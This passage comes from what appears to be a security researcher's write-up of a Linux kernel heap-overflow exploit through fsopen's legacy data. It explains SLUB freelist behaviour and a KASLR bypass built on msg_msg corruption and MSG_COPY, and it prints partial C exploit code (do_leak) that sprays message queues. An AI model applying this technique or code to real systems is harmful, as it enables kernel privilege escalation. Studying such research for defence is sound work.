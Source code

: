 Before I continue, I would like to make a note about exploit stability. Interestingly enough, it seems that newer Linux kernel exploit mitigations actually contributed to the stability of the exploit we had on Ubuntu. As you will see later on in our exploit, we never did a lot of spraying besides some initial sprays to clean up the slabs and forcing cpu affinity on one core since each core has their own freelist. Wouldn’t it make sense for slab randomization combined with a string based heap overflow to cause many crashes for systems with SLUB freelist allocators?

Well, yes if the freelist pointer was at the beginning of each chunk; our attempts at exploiting these versions of the kernel required a lot more work related to spraying and never achieved a success rate better than 50% (although due to instability issues on the Google Kubernetes’s infrastructure, I had to redevelop the spray even for newer kernel versions that should alleviate this corruption problem). Since 5.7, Linux kernel developers decided to move the freelist pointer to the middle to avoid overflows corrupting the kernel heap state. This means that as long as my overflow doesn’t corrupt some very important object, I can keep overflowing the first 0x30 bytes (which is all that matters for abusing msg_msg) and never corrupt the heap state in the 4k pages - this makes it pretty easy to try to leak memory or perform an arbitrary write on repeat as we can get a fresh legacy data allocation with every new fd we create with fsopen. Thanks mitigations!

To obtain a KASLR leak on general Linux distributions (again, if anything here sounds confusing, refer to the articles from D3v17 and me), we just need our legacy data chunk to be allocated right on top of a 4k msg_msg chunk chained with a kmalloc-32 msg_msgseg chunk. We can use our overflow to adjust the msg_msg size parameter and make it larger, and then use MSG_COPY to achieve an OOB leak. If we spray many seq_operations structure using the classic open(“/proc/self/stat”, O_RDONLY) trick, we will have a high likelihood of an OOB read leaking us the pointers within this structure, which will let us rebase the kernel and bypass KASLR.

Note that since we do not have heap leaks and that usercopy hardening does heap object bounds checking, we have to rely on MSG_COPY, which doesn’t unlink the msg_msg from its msg_queue (which would then utilize the linked list pointers in the first 0x10 bytes of msg_msg objects) and uses memcpy to transfer data to a new msg_msg structure before usercopying back.

This following snippet of code should accomplish a KASLR leak:

uint64_t do_leak () 
{
    uint64_t kbase = 0;
    char pat[0x1000] = {0};
    char buffer[0x2000] = {0}, recieved[0x2000] = {0};
    int targets[0x10] = {0};
    msg *message = (msg *)buffer;
    int size = 0x1018;

    // spray msg_msg
    for (int i = 0; i < 8; i++) 
    {
        memset(buffer, 0x41+i, sizeof(buffer));
        targets[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
        send_msg(targets[i], message, size - 0x30, 0);
    }

    memset(pat, 0x42, sizeof(pat));
    pat[sizeof(pat)-1] = '\x00';
    puts("[*] Opening ext4 filesystem");

    fd = fsopen("ext4", 0);
    if (fd < 0) 
    {
            puts("fsopen: Remember to unshare");
            exit(-1);
    }
